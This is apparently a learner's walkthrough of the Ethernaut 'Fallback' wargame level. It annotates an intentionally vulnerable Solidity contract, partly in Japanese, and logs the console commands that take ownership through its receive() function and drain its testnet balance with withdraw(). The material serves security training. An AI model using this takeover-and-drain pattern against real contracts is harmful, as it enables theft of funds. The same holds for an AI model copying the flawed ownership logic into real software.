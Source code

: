 Ethernaut 
### 1.Fallback

1. you claim ownership of the contract <br>
2. you reduce its balance to 0

### learning
- How to send Ether when intracting with an ABI<br>
- How to send Ether outside of the ABI <br>
- Converting to and from wei/Ether units <br>
- Fallback methods <br>

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/utils/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;//internal database how much Ether each address has and how many token each address has, how much money each address has 
  address payable public owner;

//constructor deployed it set as owner 
  constructor() public {//executed lifecycle of smartcontract first get deploy
    owner = msg.sender; //send as owner 
    contributions[msg.sender] = 1000 * (1 ether); //mapping contribution set amount of Ether
  }

//modifier can applied any function in a smart contract 
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

//contributionsの構成にsecurityhallがある
//何回もfunction contribute()を起動して、senderがownerよりcontributionsがmany many timesの状況になればownerになれてしまう

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }


  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

// this function is fallback function /you wanna send money to A contract 
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);//the best way attack become the owner
    //contributions条件を満たすことが攻撃の最初の準備。satisfy second condition first.
    owner = msg.sender;
  }
}
```

1. you claim ownership of the contract 

*contract*...reference of our smart contract 

n {methods: {…}, abi: Array(7), address: '0xc3309271b114BFdC7DaDCAd2C3ED67116A798624', transactionHash: undefined, constructor: ƒ, …}

contract.address...smartcontract address 

'0xc3309271b114BFdC7DaDCAd2C3ED67116A798624'

player...my address 
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

await contract.contributions(player) 
o {negative: 0, words: Array(2), length: 1, red: null}

//Array 0: 0 。現状no valueなのがわかる

await contract.getContribution()

//0のまんま

//そこでcall contribute function! It's payable.value: 1 => 1 ETH 

//1ETH send <br>
contract.contribute({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//1ETH sendでaccount valueが増えているか確認 key:value <br>
await contract.contributions(player)
o {negative: 0, words: Array(2), length: 1, red: null}
//Array 0: 1 。

//ownerの確認 <br>
await contract.owner()

//this smartcontract own address<br>
'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

//playerの確認 = まだownerになってない<br>
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

//sendTransaction is special function from web3.js <br>
contract.sendTransaction({value: 1})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

//transaction<br>
⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3062639ee20c48140d527b324f283dfbca7b07bc2f42d1f01e907d3055b76177


//Transactionの成功によりcontractのownerが自分にchangeされているのを確認<br>
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'



2.you reduce its balance to 0<br>
//balanceの確認<br>
await getBalance(contract.address)<br>
'0.000000000000000002'

//function withdrawをreturn<br>
//transfer all balance our wallet!<br>
contract.withdraw()

Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}

⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68
⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x4654244d4f2d9ece5c6cf290227532dda4960939ef760914f4e47cb9c7524c68

//balanceが"0"になっているのを確認

await getBalance(contract.address)

'0'

